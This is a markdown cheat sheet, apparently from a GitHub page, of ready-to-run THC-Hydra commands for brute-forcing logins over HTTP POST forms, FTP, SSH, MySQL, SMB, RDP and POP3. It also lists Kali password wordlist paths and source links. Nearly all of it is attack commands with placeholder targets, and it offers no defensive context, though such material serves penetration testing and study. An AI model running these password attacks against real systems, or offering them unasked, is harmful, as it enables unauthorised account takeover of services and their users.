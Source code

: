 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -L user-lst.txt -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/Login Page:Request Body:Error Message"

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt http://example.com:8080  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 12021 ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://url-name.co

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -s 2222 ssh

$ hydra -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://url-name.co:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 rdp

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP -s 53389 rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://url-name.co:33389/

## POP3

$ hydra -f -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP pop3

$ hydra -f -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP -s 10110 pop3

## Dir Kali Passwords Wordlists

/usr/share/wordlists/rockyou.txt

/usr/share/wordlists/fasttrack.txt

/usr/share/wordlists/john.lst

/usr/share/wordlists/nmap.lst

/usr/share/wordlists/legion

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
